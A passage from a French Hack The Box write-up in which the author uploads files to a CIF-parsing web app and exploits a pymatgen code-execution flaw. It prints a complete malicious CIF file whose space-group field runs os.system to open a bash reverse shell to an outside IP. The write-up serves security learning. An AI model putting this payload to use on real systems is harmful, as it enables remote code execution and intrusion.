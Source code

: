 Nous nous intéressons donc au contenu du site hébergé sur le port 5000

{% include elements/figure.html image="/images/HTB/20241026/Capture_ecran_2024-10-26_website.png" caption="Accueil du site" %}

Nous sommes inviter à créer notre propre compte, puis nous avons accès à une interface permettant d'uploader des fichiers CIF :

{% include elements/figure.html image="/images/HTB/20241026/Capture_ecran_2024-10-26_account.png" caption="Une fois connecté, nous pouvons uploader des fichiers" %}

Nous récupérons le fichier d'exemple en cliquant sur `here` et nous tentons de le téléverser sur notre compte.

```bash
cat example.cif                  
data_Example
_cell_length_a    10.00000
_cell_length_b    10.00000
_cell_length_c    10.00000
_cell_angle_alpha 90.00000
_cell_angle_beta  90.00000
_cell_angle_gamma 90.00000
_symmetry_space_group_name_H-M 'P 1'
loop_
 _atom_site_label
 _atom_site_fract_x
 _atom_site_fract_y
 _atom_site_fract_z
 _atom_site_occupancy
 H 0.00000 0.00000 0.00000 1
 O 0.50000 0.50000 0.50000 1
```

Le fichier apparaît désormais dans notre tableau de bord, et nous pouvons l'ouvrir.

{% include elements/figure.html image="/images/HTB/20241026/Capture_ecran_2024-10-26_cif.png" caption="Le fichier d'entrée est traduit avant affichage" %}

En recherchant les outils Python permettant ce genre d'analyse, nous trouvons l'outil [pymatgen](https://pymatgen.org/pymatgen.core.html) qui semble connaître une vulnérabilité critique permettant l'exécution de code à distance. Le PoC est disponible sur [Github](https://github.com/advisories/GHSA-vgv8-5cpj-qj2f).

Nous créons un fichier `.cif` qui devrait nous permettre d'obtenir un *{% include dictionary.html word="reverse-shell" %}* en modifiant la commande `touch pwned` de la *proof of concept* par `/bin/bash -c 'sh -i >& /dev/tcp/10.10.14.37/9000 0>&1'`, ce qui donne :

```cif
data_5yOhtAoR
_audit_creation_date            2018-06-08
_audit_creation_method          "Pymatgen CIF Parser Arbitrary Code Execution Exploit"

loop_
_parent_propagation_vector.id
_parent_propagation_vector.kxkykz
k1 [0 0 0]

_space_group_magn.transform_BNS_Pp_abc  'a,b,[d for d in ().__class__.__mro__[1].__getattribute__ ( *[().__class__.__mro__[1]]+["__sub" + "classes__"]) () if d.__name__ == "BuiltinImporter"][0].load_module ("os").system ("/bin/bash -c 'sh -i >& /dev/tcp/10.10.14.37/9000 0>&1'");0,0,0'


_space_group_magn.number_BNS  62.448
_space_group_magn.name_BNS  "P  n'  m  a'  "
```
